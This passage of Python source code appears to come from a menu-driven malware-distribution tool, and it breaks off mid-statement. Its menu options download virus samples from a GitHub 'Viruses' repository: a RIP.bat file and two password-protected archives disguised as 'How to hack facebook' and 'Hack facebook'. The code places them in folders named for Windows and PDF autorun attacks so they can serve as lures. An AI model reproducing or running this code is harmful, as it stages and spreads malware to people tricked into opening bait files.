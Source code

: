 		elif menu3 == 10:
			print(""+G+"")
			chunk_size = 1024
			url = 'https://github.com/Ractomes/Viruses/blob/master/samples/RIP.bat?raw=true'
			r = requests.get(url, stream = True)
			size = int(r.headers['content-length'])
			filename = url.split('/')[-1]
			with open(filename, 'wb') as f:
				for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
					f.write(data)
			os.system("mv 'RIP.bat?raw=true' Windows/RIP.bat")
			print(fun)#####done
		elif menu3 == 11:
			print("\n")
			menu()
		else:
			print(""+R+"[!] wrong number")
	except Exception:
		print(""+R+"[!] This is not number")
		
#######################Done  PC
####################start PDF
def Vpdfautorunpc():
	print(""+O+"["+R+"1"+O+"] How to hack facebook (ext: rar)")
	print(""+O+"["+R+"2"+O+"] Hack facebook        (ext: rar)")
	print(""+O+"["+R+"3"+O+"] Back")
	
	try:
		menu4 = input("Input Number >"+R+" ")
		if menu4 == 1:
			print(""+G+"")
			chunk_size = 1024
			url = 'https://github.com/Ractomes/Viruses/blob/master/samples/howtohackfb.rar?raw=true'
			r = requests.get(url, stream = True)
			size = int(r.headers['content-length'])
			filename = url.split('/')[-1]
			with open(filename, 'wb') as f:
				for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
					f.write(data)
			os.system("mv 'howtohackfb.rar?raw=true' Pdf-autorun-windows/How-to-hack-facebook.rar")
			print(fun)#####done
			print("password: cracker\n")
		elif menu4 == 2:
			print(""+G+"")
			chunk_size = 1024
			url = 'https://github.com/Ractomes/Viruses/blob/master/samples/hackfacebook.rar?raw=true'
			r = requests.get(url, stream = True)
			size = int(r.headers['content-length'])
			filename = url.split('/')[-1]
			with open(filename, 'wb') as f:
				for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
					f.write(data)
			os.system("mv 'hackfacebook.rar?raw=true' Pdf-autorun-windows/Hack-facebook.rar")
			print(fun)#####done
			print("password: cracker\n")
		elif menu4 == 3:
			print("\n")
			menu()
		else:
			print(""+R+"[!] Wrong number")
	except NameError: